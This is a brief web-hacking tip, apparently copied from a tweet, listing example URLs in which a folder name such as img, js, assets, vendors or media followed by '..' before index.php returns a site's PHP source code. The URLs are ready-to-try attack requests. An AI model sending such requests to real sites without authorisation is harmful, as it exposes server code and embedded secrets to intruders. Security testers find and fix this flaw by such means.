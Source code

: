 https://twitter.com/naglinagli/status/1401259603845918722

```
http://example[.]com/index.php -> File not found
http://example[.].com/assets../index.php -> source code
http://example[.].com/img../index.php -> source code
http://example[.].com/js../index.php -> source code
http://example[.].com/vendors../index.php -> source code
http://example[.].com/media../index.php -> source code


```


Try with img, js, assets, vendors, media as the folder name

